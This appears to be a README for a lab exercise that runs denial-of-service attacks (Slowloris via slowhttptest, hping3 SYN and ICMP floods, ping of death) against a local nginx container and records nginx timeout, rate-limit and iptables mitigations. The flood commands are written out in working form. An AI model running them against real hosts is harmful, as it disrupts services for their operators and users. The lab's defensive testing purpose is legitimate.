




# Slowloris

```commandline
docker run frapsoft/slowhttptest -c 300 -H -i 10 -r 5 -t GET -u http://localhost:80/ -x 24 -p 3
```



When protected is setup, nginx held more connections

```nginx configuration
    client_body_timeout 5s;
    client_header_timeout 5s;
    send_timeout 10s;
    keepalive_timeout 15s;
```




# HTTP Flood / UDP Flood / SYN
All attack a pretty the same in terms of result
Nginx does not http flood attack from hping3 so memory stayed the same. it dumps only network traffic

Command example with http flood atack
```bash
hping3 -i u1 -p 80 -S -V --data "GET / HTTP/1.1\r\nHost: nginx\r\n\r\n" nginx &
```


To mitigate the flood I added a rate limiter inside nginx
```nginx configuration
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=10r/s;
limit_req zone=mylimit;
```

# Ping of death
It is not working because ping does not support iit
```bash
ping nginx -s 65500 -t 1 -n 1
```

# ICMP Flood
Nginx does not http flood attack from hping3 so memory stayed the same. it dumps only network traffic
```bash
hping3 -1 --flood -p 80 -V nginx
```


This flood can be fixed by command, but docker does grant permissions to use iptables even with a root 

```Dockerfile
RUN iptables -A INPUT --proto icmp -j DROP
```
 

